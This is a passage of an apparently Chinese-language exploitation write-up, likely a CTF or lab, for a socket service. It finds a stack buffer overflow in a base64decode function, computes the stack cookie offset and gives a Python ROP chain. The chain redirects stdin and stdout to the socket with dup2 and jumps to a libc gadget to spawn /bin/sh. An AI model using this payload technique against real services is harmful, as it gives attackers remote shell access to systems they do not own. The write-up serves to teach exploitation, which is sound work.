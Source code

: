[![](https://p3.ssl.qhimg.com/t01f5e062ca49653022.png)](https://p3.ssl.qhimg.com/t01f5e062ca49653022.png)

先查看一下栈内容，现在是正常的

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01fdee6f51900aef64.png)

`base64decode`调用返回后，栈被覆盖了，通过对比正常的栈内容，得到stack_cookie的偏移`0x928-0x8e0 = 0x48`

[![](https://p0.ssl.qhimg.com/t01d86e922dcb965216.png)](https://p0.ssl.qhimg.com/t01d86e922dcb965216.png)

查看函数`base64decode`的代码，最后确认溢出点在这里，a2是在调用`base64decode`传入的一个局部数组

[![](https://p0.ssl.qhimg.com/t01241a8c005b56bc99.png)](https://p0.ssl.qhimg.com/t01241a8c005b56bc99.png)

查看栈布局，a2的缓冲区大小只有0x48，当越界了就会发生溢出

[![](https://p5.ssl.qhimg.com/t0192e6eb037d4f279f.png)](https://p5.ssl.qhimg.com/t0192e6eb037d4f279f.png)



## 0x005 ROP

现在已经分析完了，下面就是常规栈溢出的做法了，只是要注意现在是在socket服务下的利用，还需要将标准输入、输出重定向到sockfd，可以这样构造rop chain

```
#1.Smash stack bypass
pl = ''
pl += 'a'*0x48
pl += p64(stack_cookie)
#2.Call dup2(4,1) [out]
pl += p64(ret)*4
pl += p64(rdi)
pl += p64(4)
pl += p64(rdx_rsi)
pl += 'a'*8
pl += p64(1)
pl += p64(libc.sym['dup2'])
#3.Call dup2(4,0) [in]
pl += p64(ret)*4
pl += p64(rdi)
pl += p64(4)
pl += p64(rdx_rsi)
pl += 'a'*8
pl += p64(0)
pl += p64(libc.sym['dup2'])
#4.Call system('/bin/sh')
pl += p64(ret)
pl += p64(libc.address+0x45216)
pl.rjust(200,'x00')
```
